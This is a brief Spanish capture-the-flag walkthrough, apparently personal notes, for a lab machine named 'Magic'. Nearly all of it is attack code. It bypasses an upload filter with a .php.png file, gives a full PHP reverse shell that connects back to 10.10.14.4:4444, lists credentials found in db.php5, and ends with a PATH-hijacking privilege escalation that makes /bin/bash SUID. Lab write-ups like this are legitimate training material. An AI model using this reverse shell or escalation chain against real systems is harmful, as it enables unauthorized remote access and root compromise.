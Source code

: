 ```yaml
---
layout: default
title: Magic
---
```

Básicamente subir una `.php.png` pero con mimetype de png.

A veces no va la de pentestmonkey ni rev shells y hay que recurrir a otras alternativas
```php
<?php $ip="10.10.14.4";$port=4444;$s=fsockopen($ip,$port);$p=proc_open("/bin/sh -i",[0=>["pipe","r"],1=>["pipe","w"],2=>["pipe","w"]],$pipes);while(1){if(feof($s)||feof($pipes[1]))break;$r=[$s,$pipes[1],$pipes[2]];$w=$e=null;stream_select($r,$w,$e,null);if(in_array($s,$r))fwrite($pipes[0],fread($s,1400));if(in_array($pipes[1],$r))fwrite($s,fread($pipes[1],1400));if(in_array($pipes[2],$r))fwrite($s,fread($pipes[2],1400));}fclose($s);fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($p);?>
```

```bash
cat db.php5
```

```
theseus \ iamkingtheseus
```

```
admin \ Th3s3usW4sK1ng
```

```
pspy
```

```bash
/usr/sbin/cups-browsed 
/usr/sbin/cupsd -l
```

# PATH HIJACKING

```bash
/bin/sysinfo
```

```bash
ltrace /bin/sysinfo
```

```bash
#!/bin/bash

chmod u+s /bin/bash
```

```bash
chmod +x fdisk 
```

```bash
export PATH="/tmp:$PATH"
```

```bash
bash -p
```

```bash
/bin/sysinfo
```